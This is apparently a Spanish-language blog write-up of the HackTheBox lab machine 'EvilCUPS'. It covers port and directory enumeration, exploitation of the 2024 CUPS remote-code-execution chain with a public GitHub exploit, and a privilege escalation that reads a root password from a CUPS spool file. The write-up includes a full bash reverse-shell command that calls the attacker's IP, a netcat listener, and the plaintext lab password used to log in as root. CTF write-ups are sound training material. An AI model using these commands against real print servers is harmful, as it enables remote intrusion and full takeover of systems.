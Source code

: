 ```yaml
---
layout: single
title: write up EvilCUPS
excerpt:
date: 2024-11-07
classes: wide
header:
  teaser: /assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png
  teaser_home_page: true
categories:
  - hacking
  - linux
  - 
tags:  
  - hacking
  - linux
---
```


![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png)
xd
"EvilCUPS" es una máquina de HackTheBox basada en vulnerabilidades del servicio CUPS que permiten ejecución remota de comandos. Siguiendo un tutorial reciente, logramos acceso inicial al sistema y, al revisar archivos de configuración de CUPS, encontramos una contraseña reutilizada para root, lo que nos dio control total del sistema.

lo primero que vamos a hacer es ejecutar los escaneos de nmap:
```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.11.40 -oG allports
```
![](/assets/images/EvilCUPS/Pastedimage20241107151258.png)

```bash
nmap -sCV -p22,631 10.10.11.40 -oN ports
```
![](/assets/images/EvilCUPS/Pastedimage20241107151642.png)
vemos que nos da la version de cups que es la 2.4 una version antigua del 2022.
tambien podemos ver que hay http por lo que alomejor hay una web.
vamos a usar whatweb para averiguarlo:
```bash
whatweb 10.10.11.40:631
```
![](/assets/images/EvilCUPS/Pastedimage20241107152132.png)
como podemos ver hay algo por lo que vamos a ponerlo en el navegador
![](/assets/images/EvilCUPS/Pasted image 20241107152436.png)
nada mas entrar vemos otra vez la version del servicio y multiples enlaces a los cuales podemos acceder.
antes de ponerme a tocar voy a preferir ejecutar un gobuster para ver si encuentro algo mas
```bash
 gobuster dir -u http://10.10.11.40:631/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x php,html,php.bak,bak,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.40:631/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php.bak,bak,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2262]
/help                 (Status: 200) [Size: 3137]
/jobs                 (Status: 200) [Size: 2329]
/jobs.txt             (Status: 200) [Size: 2329]
/jobs.html            (Status: 200) [Size: 2329]
/jobs.php.bak         (Status: 200) [Size: 2329]
/jobs.php             (Status: 200) [Size: 2329]
/jobs.bak             (Status: 200) [Size: 2329]
/de                   (Status: 200) [Size: 2316]
/fr                   (Status: 200) [Size: 2340]
/admin                (Status: 403) [Size: 370]
/admin.html           (Status: 403) [Size: 370]
/admin.php            (Status: 403) [Size: 370]
/admin.bak            (Status: 403) [Size: 370]
/admin.txt            (Status: 403) [Size: 370]
/admin.php.bak        (Status: 403) [Size: 370]
/es                   (Status: 200) [Size: 2478]
/ru                   (Status: 200) [Size: 2739]
/ja                   (Status: 200) [Size: 2263]
/printers.php.bak     (Status: 200) [Size: 2388]
/printers.bak         (Status: 200) [Size: 2388]
/printers             (Status: 200) [Size: 2388]
/printers.html        (Status: 200) [Size: 2388]
/printers.php         (Status: 200) [Size: 2388]
/printers.txt         (Status: 200) [Size: 2388]
/classes.php.bak      (Status: 200) [Size: 2003]
/classes              (Status: 200) [Size: 2003]
/classes.bak          (Status: 200) [Size: 2003]
/classes.php          (Status: 200) [Size: 2003]
/classes.txt          (Status: 200) [Size: 2003]
/classes.html         (Status: 200) [Size: 2003]
/robots.txt           (Status: 200) [Size: 95]
/administration       (Status: 403) [Size: 370]
/administration.txt   (Status: 403) [Size: 370]
/administration.html  (Status: 403) [Size: 370]
/administration.php   (Status: 403) [Size: 370]
/administration.php.bak (Status: 403) [Size: 370]
/administration.bak   (Status: 403) [Size: 370]
/da                   (Status: 200) [Size: 2311]
/'                    (Status: 403) [Size: 370]
/'.php                (Status: 403) [Size: 370]
/'.php.bak            (Status: 403) [Size: 370]
/'.html               (Status: 403) [Size: 370]
/'.bak                (Status: 403) [Size: 370]
/'.txt                (Status: 403) [Size: 370]
/jobsearch.php        (Status: 200) [Size: 2329]
/jobsearch            (Status: 200) [Size: 2329]
/jobsearch.html       (Status: 200) [Size: 2329]
/jobsearch.bak        (Status: 200) [Size: 2329]
/jobsearch.php.bak    (Status: 200) [Size: 2329]
/jobsearch.txt        (Status: 200) [Size: 2329]
/jobseeker            (Status: 200) [Size: 2329]
/jobseeker.bak        (Status: 200) [Size: 2329]
/jobseeker.txt        (Status: 200) [Size: 2329]
/jobseeker.php        (Status: 200) [Size: 2329]
/jobseeker.php.bak    (Status: 200) [Size: 2329]
/jobseeker.html       (Status: 200) [Size: 2329]
Progress: 32619 / 7642998 (0.43%)
```
no parece aver nada interesante por lo que vamos a tocar la pagina
si nos vamos a http://10.10.11.40:631/printers/
veremos lo siguiente:
![](/assets/images/EvilCUPS/Pastedimage20241107153439.png)
si clicamos sobre Canon_MB2300_series veremos que nos da cierta infromacion de la impresora
![](/assets/images/EvilCUPS/Pasted image 20241107153634.png)
tambien si vemos Show completed jobs saldran las tareas completadas (en vuestro caso solo os saldra una no como a mi que me puse a tocar antes de escribir xdd)
![](/assets/images/EvilCUPS/Pastedimage20241107153804.png)
como podemos ver hay dos usuarios Withheld y anonymous ( este ultimo es que usado yo y que no os aparecera)
lo interesante esque tenemos poder sobre el usuario anonymous pero por ejemplo si intentamos haceder a http://10.10.11.40:631/admin nos suelta un 403 forbiden
![](/assets/images/EvilCUPS/Pastedimage20241107154158.png)
por lo aqui entran los siguientes CVE:
[CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)
[CVE-2024-47076](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)
[CVE-2024-47175](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)
[CVE-2024-47177](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)
basicamente lo que hay que comprobar el puerto 631 por UDP, si esta abierto podemos ejecuatr remote code execution (RCE)
por lo que podemos usar nmap para ver si es correcto:
```bash
nmap -sU -p631 10.10.11.40
```
![](/assets/images/EvilCUPS/Pastedimage20241107154858.png)
como podemos ver esta abierto por lo que genial (para nostros como atacantes claro)
vamos a darnos el lujazo de que vamos a usar el siguiente exploit para poder vulnerar el servicio 
https://github.com/IppSec/evil-cups.git
para isntalarlo es asi:
```bash
❯ git clone https://github.com/IppSec/evil-cups.git
<SNIP>

❯ cd evil-cups

❯ python3 -m venv evilcups_env

❯ source evilcups_env/bin/activate

❯ pip3 install -r requirements.txt

❯ python3 evilcups.py -h
evilcups.py <LOCAL_HOST> <TARGET_HOST> <COMMAND>
```
vale una vez echo abrimos otra terminal y nos ponemos en escucha por un puerto, en mi caso voy a elejir el 443 (no afecta en nado solo es por gusto)
```bash
nc -nvlp 443
```
ahora el exploit tiene un pero por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo PID del proceso que está corriendo la impresora
para comprenderlo mejor voy a citar una explicacion de otro write up que lo explica fabulosamente y os dejo el enlace tambien al writeup oficial
https://gunzf0x.github.io/pentesting/es/posts/evilcups/
cito:
"por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo `PID` del proceso que está corriendo la impresora. De manera que, si por A, B, C motivo la mala impresora (agregada) se muere o es removida, nuestra reverse shell también morirá ya que es un proceso “child” (hijo) de ésta. Puede haber un proceso corriendo por detrás el cual elimina las impresoras no deseadas. Por tanto, nuestra reverse shell podría morir. Para sobrepasar este problema podemos crear un nuevo `PID` el cual se haga cargo del proceso de la reverse shell utilizando el comando `nohup` junto con el de la reverse shell. Por tanto, si realizamos esta secuencia de ataque para `CUPS`, se recomienda hacerlo utilizando `nohup` para crear un proceso independiente.

Como último aviso, en la vida real puede que no haya un proceso removiendo constantemente las impresoras no deseadas. De ser ese el caso (el cual es más realista), y por alguna razón nuestra reverse shell muere, tendremos que cambiar nuestra dirección IP dado que al realizar la inyección ésta no aceptará un nuevo archivo `PPD`. Supongo que por eso la gente de HTB fue considerada y agregó el proceso de borrar impresoras. De otro modo necesitaríamos cambiar la IP cada vez que la reverse shell muere o, incluso, si es que simplemente ejecutamos un `ping` para saber si el exploit funcionaba."

vale una vez dicho esto vamos a ejecuat el exploit de la siguiente forma:
```bash
python3 evilcups.py 10.10.16.74 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.16.74/443 0>&1" &'
```
y esperamos unos 30 segundos
pasados esos 30 segundos si vamos a http://10.10.11.40:631/printers/ veremos la impresora maliciosa
![](/assets/images/EvilCUPS/Pastedimage20241107160105.png)
si la selecionamos y imprimimos una pagina de ejmplo 
pum estamos dentro
![](/assets/images/EvilCUPS/Pastedimage20241107160207.png)
![](/assets/images/EvilCUPS/Pastedimage20241107160221.png)
ahora para el escalado de privilegios 
## escalado de privilegios
hay un directorio cups donde en general se almacena todo. problema no tenemos haceso pero si podemos ejecutar comando:
![](/assets/images/EvilCUPS/Pastedimage20241107160946.png)
por lo que si investigamos un poco descubrimos que suelen tener una nomeglatura generica los archivos gracias a la documentacion oficial de cups
por lo que si supuestamente hacemos un:
```bash
cat /var/spool/cups/d00001-001
```
deveria ver una/unas contraseña/s
![](/assets/images/EvilCUPS/Pastedimage20241107161244.png)
y exacto hay la tenemos.
si nos la copiamos y con netexect para ver si es de root:
```bash
nxc ssh 10.10.11.40 -u 'root' -p 'Br3@k-G!@ss-r00t-evilcups'
```
![](/assets/images/EvilCUPS/Pastedimage20241107161436.png)
y vemos que si por lo que ya solo es entrar por ssh y somos root
![](/assets/images/EvilCUPS/Pastedimage20241107161548.png)
